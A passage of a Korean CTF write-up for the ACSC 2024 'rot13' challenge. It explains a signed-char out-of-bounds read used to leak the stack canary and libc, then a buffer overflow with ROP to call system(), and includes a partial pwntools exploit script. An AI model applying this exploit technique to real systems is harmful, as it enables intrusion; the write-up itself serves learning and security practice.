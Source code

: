 따라서 아래와 같은 시나리오를 세웠다.

1. Memory Leak
    - Canary Leak
    - libc Leak
2. BOF

#### 3.1 Memory Leakage

`rot13()` 에서 `table` 배열은 `buf[i]` 의 값을 인덱스로 받고 있고 `buf` 는 `char` 형으로 선언되었다. 따라서 표현할 수 있는 범위는 -128 ~ 127 이기 때문에 `\x80 ~ \xff` 까지의 데이터는 음수 인식되어 `table` 변수에 대한 Out Of Bound Read가 가능하다.

이를 통해 Canary 값과 libc 주소를 알아냈다.

#### 3.2 Buffer OverFlow

입력 값 제한이 없기 때문에 return address를 덮어쓸 수 있고, `pop; ret;` gadget을 통해 ROP를 이용하여 `system()` 함수를 호출시켰다.

`memset(buf, 0, sizeof(buf));` 이므로 `buf` 배열까지만 초기화가 되고, return을 호출하기 위해서 `scanf` 에 `\n` 을 입력해주면 된다.

#### 3.3 Exploit Code

```python
from pwn import *

#context.log_level = 'debug'

#p = process('./rot13')
p = remote('rot13.chal.2024.ctf.acsc.asia', 9999)

''' Local
putchar_119 = 0x82a77
binsh = 0x1d8698
popret = 0x2a3e5
ret = 0x29cd6
system = 0x50d60
'''
# Server
putchar_119 = 0x829f7
binsh = 0x1d8678
popret = 0x2a3e5
ret = 0x29139
system = 0x50d70

#input()
payload = b''

for i in range(0x0e, 0x100):
    payload += i.to_bytes(1, 'big')

p.sendlineafter(b'Text: ', payload)

p.recvuntil(': ')

p.recvuntil(b'\x7f')
p.recv(8)
leak = u64(p.recv(8))
p.recv(8 * 11)
canary = u64(p.recv(8))

print(hex(leak))
print(hex(canary))

libc_base = leak - putchar_119
ret = libc_base + ret
popret = libc_base + popret
binsh = libc_base + binsh
```